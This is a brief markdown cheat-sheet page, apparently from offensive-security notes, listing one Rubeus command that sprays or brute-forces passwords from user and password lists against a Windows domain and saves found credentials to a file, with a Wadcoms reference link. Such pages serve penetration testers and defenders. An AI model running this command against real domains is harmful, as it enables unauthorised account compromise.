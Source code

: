 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - privilege-escalation
  - password-cracking
  - password-spraying
  - offensive-tools
  - windows
---
```

# Binaries

## 01 - Rubeus

```
C:\> Rubeus.exe /users:users.lst /passwords:passwords.lst /domain:<domain> /outfile:credentials.txt
```

---
## References

### Wadcoms

- [Wadcoms: Rubeus Brute](https://wadcoms.github.io/wadcoms/Rubeus-Brute/)